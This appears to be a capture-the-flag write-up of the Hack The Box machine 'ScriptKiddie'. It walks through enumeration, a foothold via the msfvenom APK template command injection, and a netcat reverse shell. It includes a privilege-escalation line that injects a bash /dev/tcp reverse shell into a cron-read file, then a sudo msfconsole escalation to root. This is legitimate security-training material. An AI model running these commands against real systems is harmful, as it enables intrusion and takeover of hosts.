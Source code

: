 # ScriptKiddie
### Machine Maker(s): [0xdf](https://www.hackthebox.eu/home/users/profile/4935)

#### Info :
``` 
OS          : Linux
Difficulty  : Easy
Points      : 20
Release     : 06 Feb 2021
IP          : 10.10.10.226
```
---
## Enumeration

Scanning the ip address we find an open **SSH** port and a web-page hosted on port 5000         
![](images/nmap.png)

I tried running dirbuster in hopes of finding a directory for uploads of the template file but it was in vain.       

I checked the sourcecode couldn't find much of anything there, checked for filters in the input, checked for js files but none of them were linked in the sourcecode. 

After lurking in the Official forum for sometime they were talking about metasploit a lot but I didn't understand why. Then I read the payloads section again, it must be something related to template file upload and msfvenom, so i started googling.

## Foothold

I found a **command injection vulnerability** in msfvenom payload generator when using a crafted APK file as a Android payload template.

After looking up in different sites I found how to reproduce it in the Official Metasploit [repo](https://github.com/rapid7/metasploit-framework/pull/14331)

Following the instructions there I was able to generate an apk file using msfconsole.
![](images/poc.png)     
Fire up a netcat listener for the reverse shell      
```bash
$ nc -lvnp port
```
and enter your LHOST and upload your apk file onto the target site.

We got a reverse shell.         
Use this to get a python interactive shell
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation                

After lurking around we find another user **pwn** who has a cronjob running so we try to get a horizontal privilege escalation.

The scanloser.sh file doesn't have write permissions for user kid **kid**.      
Looks like hackers is being run everytime scanlosers.sh runs so we try to write into that, **kid** has permissions to write into it.        

So we try to write a bash reverse shell.        
use the following command to echo the bash shell into hackers
```bash
echo "         ; /bin/bash -c 'bash -i >& /dev/tcp/ip_address/port 0>&1'  #" >> hackers
```
Don't forget to fire up another netcat listener for this as well.

We get the shell for the user pwn       
Let's check the user permissions for this user
```bash
$ sudo -l
```
We can run /opt/metasploit-framework-6.0.9/msfconsole without password as root

Lets fire up msfconsole and check the root.txt from there.
```bash
msf6 > cat /root/root.txt
```

Voila! We have the root flag.
